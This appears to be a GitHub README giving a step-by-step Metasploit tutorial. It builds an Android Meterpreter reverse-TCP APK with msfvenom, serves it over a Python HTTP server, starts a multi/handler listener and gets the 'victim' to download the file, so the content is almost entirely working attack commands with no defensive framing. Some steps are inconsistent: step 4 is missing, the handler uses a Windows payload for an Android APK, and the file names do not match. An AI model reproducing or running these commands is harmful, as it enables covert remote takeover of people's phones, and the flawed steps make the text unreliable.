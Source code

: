 ## TERMINAL-1. 


STEP 1 -  sudo su 

STEP 2 -  cd

STEP 3 -  cd

STEP 5 -  msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.0.74 LPORT=4444 R> filename.apk 

______________________________________________________________________________________________________________________________________________________________________________________

Here's what each option in the command means:

_____________________________________________________________________________________________________________________________________________
_________________________________________

|–platform android: set the target platform to android

|-p android/meterpreter/reverse_tcp: set the payload to a reverse TCP meterpreter

|LHOST=192.168.0.74: set the local host to the kali linux machine ip address

|LPORT=4444: set the local port to whatever port you want

______________________________________________________________________________________________________________________________________________________________________________________

payload will be generated. Open the file explorer in kali,
look for the payload then open a new terminal in that location where there is payload. 


## TERMINAL-2.

STEP 6 -  python3 -m http.server     (running a simple http server so that the payload can be downloaded on the victims machine.)
now go back to the TERMINAL-1.


STEP 7 -  use exploit/multi/handler      (command designed for creating reverse shell connections.)

STEP 8 -  set payload windows/meterpreter/reverse_tcp   

STEP 9 -  set LHOST 192.168.0.74       (set LHOST <Kali Linux IP> which was given in the payload as well)

STEP 10 -  set LPORT 4444               (set LPORT <port> the same port number that was given while creating the payload)

STEP 11 -  exploit        (to run the commands you can use either "exploit" or "run" command)

STEP 12 -  help       (to view the command that can be run after the sucessfull reverse shell of android)

______________________________________________________________________________________________________________________________________________________________________________________


To download the payload in victim's device you need to open the browser and type 


STEP 13 -  192.168.0.74/payload.apk     (kali linux ip address which is used in the lhost/the payload file name)

STEP 14 -  hit enter 

STEP 15 -  The payload will start downloading.
______________________________________________________________________________________________________________________________________________________________________________________







____________________________________________________________________________________________________________________________________________
▶ Name: StromWise

▶ Role: Creator

▶ Location: Unknown

▶ GitHub: https://github.com/stromwise 

▶ Instagram: https://www.instagram.com/stromwise/ 

▶ Facebook: https://www.facebook.com/profile.php?id=100093706328777

▶ Youtube: https://www.youtube.com/channel/UC-tafc0TqgZNnQio8Gj-hjg 

▶ Twitter: https://twitter.com/StromWise 
____________________________________________________________________________________________________________________________________________


